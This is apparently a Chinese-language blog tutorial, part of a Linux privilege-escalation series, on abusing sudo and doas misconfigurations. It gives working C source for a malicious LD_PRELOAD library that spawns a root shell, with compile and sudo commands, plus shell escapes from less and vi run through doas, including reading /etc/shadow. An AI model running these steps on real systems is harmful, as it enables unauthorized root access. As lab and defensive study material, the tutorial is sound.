

# 前言：

本篇讲的是第四类 ：特权委派漏洞sudo/Doas

在 Linux 系统中，`root` 权限不能随便给别人。为了方便管理，系统管理员通常会使用特权委派工具（如 `sudo` 或 `doas`），允许普通用户在**不输入 root 密码**的情况下，以 root 身份执行**特定的几条命令**。

但这往往是漏洞的重灾区，如果管理员规则写得太宽泛，或者对环境变量管控不严，我们就能借力打力，直接“逃逸”出规则的限制，拿到完整的 Root Shell。


# 实战：

## 情况一：Sudo 环境变量提权 (`LD_PRELOAD` 劫持)

拿到低权限shell后打一个sudo -l看看情况



输入后，如果输出中包含下面这行极其危险的环境变量配置： `env_keep += LD_PRELOAD` 并且下面列出了你可以免密执行的某个命令（比如 `(root) NOPASSWD: /usr/bin/find`） 那就可以按我们这个套路来打

### **原理：**

 `LD_PRELOAD`其中 LD是linker dynamic的缩写。它的作用是：**在程序加载任何正常的 C 语言标准库之前，优先加载你指定的动态链接库 (`.so` 文件)，**如果 `sudo` 配置了 `env_keep += LD_PRELOAD`，意味着当你用 `sudo` 运行命令时，这个环境变量会被**带入到 root 环境中**。

黑客逻辑：我写一个恶意的 `.so` 库 -> 用 `LD_PRELOAD` 加载它 -> 用 `sudo` 随便跑一个合法的命令 -> 恶意代码被以 root 权限优先执行


### 实现：

1. **编写恶意 C 语言库文件** 去靶机的 `/tmp` 目录，新建一个名为 `preload.c` 的文件：
   
   ```bash
   #include <stdio.h>
   #include <sys/types.h>
   #include <stdlib.h>
   
   // _init() 函数会在共享库被加载时自动优先执行
   void _init() {
       unsetenv("LD_PRELOAD"); // 防止死循环
       setgid(0);
       setuid(0);
       system("/bin/bash");
   }
   ```

2. **编译为动态链接库 (`.so`)**
   
   ```bash
   gcc -fPIC -shared -o /tmp/preload.so /tmp/preload.c -nostartfiles
   ```

3. **拿Root** 假设 `sudo -l` 允许我们运行的命令是 `/usr/bin/find`。我们在运行它的同时，强行塞入我们的恶意库：
   
   ```bash
   sudo LD_PRELOAD=/tmp/preload.so /usr/bin/find
   ```

补充：同理，如果你在 `sudo -l` 看到 `env_keep += LD_LIBRARY_PATH`，也是一模一样的劫持思路，只需替换程序原本调用的同名 `.so` 即可。


## 情况二：`doas` 交互式程序逃逸提权 (`less` / `vi`)

### 原理：

**什么是 Doas？** `doas` 最初是 OpenBSD 系统里的工具，后来被移植到了 Linux。它的作用和 `sudo` 一模一样，但主打一个**轻量、极简**。在很多加固过的靶机（如 Alpine Linux）中，管理员会用 `doas` 替代 `sudo`。

**利用场景：** 首先，查看 `doas` 的配置文件（它的配置比 sudoers 简单多了，且通常全局可读）：

```bash
cat /etc/doas.conf
```

如果你在里面看到类似这样的规则： `permit nopass s0m1ng as root cmd less` 或者 `permit nopass s0m1ng as root cmd vi` 

意思是你被允许以 root 身份运行 `less` 或 `vi`。那我们就可以尝试打一下


**原理解析 (交互式逃逸)：** `less`、`more`、`vi`、`man` 这一类程序被称为**交互式阅读器/编辑器**。它们为了方便程序员，内部自带了“不退出阅读器，直接执行系统命令”的快捷键（通常是 `!` 感叹号）。既然我们是借助 `doas` 以 root 身份运行它们的，那它们内部弹出的 Shell，自然也是 root 权限


### 实战操作步骤

1. **目标命令是 `less` (或 `more`, `man`)**

以高权限运行它去读一个大文件（保证文件够长，能进入分页交互模式）：

```bash
doas less /etc/shadow
!/bin/sh
#然后按回车
```

2. **目标命令是 `vi` (或 `vim`)**

```bash
doas vi /etc/profile
```

在编辑器内，按下 `ESC` 键，输入冒号进入命令模式，然后敲下：

```bash
:!/bin/sh
```


